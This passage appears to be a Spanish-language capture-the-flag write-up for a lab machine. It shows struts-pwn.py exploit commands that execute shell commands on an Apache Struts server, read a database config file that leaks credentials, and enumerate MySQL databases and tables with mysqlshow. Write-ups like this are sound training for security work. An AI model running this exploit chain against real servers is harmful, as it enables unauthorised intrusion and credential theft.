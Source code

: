 ```bash

[%] Done.
```

Como podemos ver de primeras se nos otorga un archivo bastante interesante llamado `db_connect` por lo que vamos a ver que es lo que contiene

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'cat db_connect'

[*] URL: http://10.10.10.64/Monitoring/example/Welcome.action
[*] CMD: cat db_connect
[!] ChunkedEncodingError Error: Making another request to the url.
Refer to: https://github.com/mazen160/struts-pwn/issues/8 for help.
EXCEPTION::::--> ('Connection broken: IncompleteRead(0 bytes read)', IncompleteRead(0 bytes read))
Note: Server Connection Closed Prematurely

[ssn]
user=ssn_admin
pass=AWs64@on*&

[users]
user=admin
pass=admin

[%] Done.
```

Obtenemos varias credenciales y por lo que parecen ser son para poder autenticarnos en una base de datos `mysql`, lo que pasa en este punto es que nosotros no podemos lanzar el tipico comando de `mysql -u user -p password` porque no tenemos una consola interactiva, por lo que nos devolvería un error, por lo que vamos a utilizar `mysqlshow` que es una alternativa para poder ver tanto las bases de datos como las tablas de estas para luego posteriormente hacer una consulta ya con el comando `mysql`

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -uadmin -padmin'
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| users              |
+--------------------+

[%] Done.
```

- Vemos las tablas dentro de la base de datos users

```bash
python2.7 struts-pwn.py -u http://10.10.10.64/Monitoring/example/Welcome.action -c 'mysqlshow -uadmin -padmin users'
Database: users
+----------+
|  Tables  |
+----------+
| accounts |
+----------+

[%] Done.
```

